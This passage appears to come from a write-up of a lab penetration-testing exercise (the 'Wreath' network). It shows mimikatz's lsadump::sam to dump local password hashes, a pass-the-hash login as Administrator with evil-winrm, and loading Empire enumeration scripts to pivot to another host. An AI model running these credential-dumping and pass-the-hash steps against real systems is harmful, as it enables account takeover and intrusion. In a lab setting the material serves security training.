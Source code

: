 ![](/Images/wreath/Screenshot-2021-04-07-161521.png)

now local password hashes using this command.

```
lsadump::sam
```

copy the **Administrator** Hash we can use this with evil-winrm to login with hash, you can try to crack hash but it take a lot time no use when we can login with password hash.

```
evil-winrm -u Administrator -H HASH -i 10.200.90.150
```

# PERSONAL PC

We finally fully compromised the windows machine now time to move to next target, for enumerate we need to scan target for more details, we can try uploading nmap but t might be tricky since its exe file. in evil-winrm they provided **tac S (-s)** which let us enable a folder, using that command we can scan for more detials

```
evil-winrm -u Administrator -H HASH -i 10.200.90.150 -s /opt/Empire/data/module_source/situational_awareness/network
```
